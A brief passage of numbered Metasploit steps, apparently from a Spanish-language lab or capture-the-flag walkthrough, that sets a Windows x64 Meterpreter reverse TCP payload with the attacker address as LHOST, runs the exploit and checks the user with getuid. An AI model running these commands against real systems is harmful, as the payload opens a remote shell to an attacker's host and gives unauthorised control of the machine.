6. `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
7. `set LHOST TU_IP`
8. `run`
9. `getuid`
